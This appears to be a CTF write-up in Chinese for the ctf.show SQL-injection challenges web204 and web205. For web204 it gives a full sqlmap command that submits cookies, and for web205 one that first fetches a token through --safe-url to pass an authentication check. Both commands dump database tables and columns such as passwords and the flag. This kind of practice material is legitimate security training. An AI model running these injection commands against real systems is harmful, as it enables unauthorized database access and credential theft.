 

#### web204

```
使用--cookie 提交cookie数据
```

payload:

```
 sqlmap -u "http://c07422b1-5bde-4baa-9e8c-73ef4edfa83a.challenge.ctf.show/api/index.php" --method="PUT" --data="id=1" --referer=ctf.show --headers="Content-Type: text/plain" --cookie="PHPSESSID:eqf4q2s5ma4u4vtj31sf25lbp5;ctfshow:d5d0917
6f63d87074e926a342a996872" -D ctfshow_web -T ctfshow_user -C pass --dump
```



#### web205

```
api调用需要鉴权
```

通过抓包分析，在每次请求`url/api/index.php`之前需要先请求`URL/api/getTokn.php`

![image-20250213112654599](../assets/image-20250213112654599.png)

payload：

```
sqlmap -u "http://24e98b18-4f9a-4a11-a265-5022e0e3fb05.challenge.ctf.show/api/index.php" --method="PUT" --data="id=1" --referer=ctf.show --headers="Content-Type: text/plain" --cookie="PHPSESSID=60prkqe8189934t5pv3ikepa16" --safe-url="http://24e98b18-4f9a-4a11-a265-5022e0e3fb05.challenge.ctf.show/api/getToken.php" --safe-freq=1 -D ctfshow_web -T ctfshow_flax --dump
```
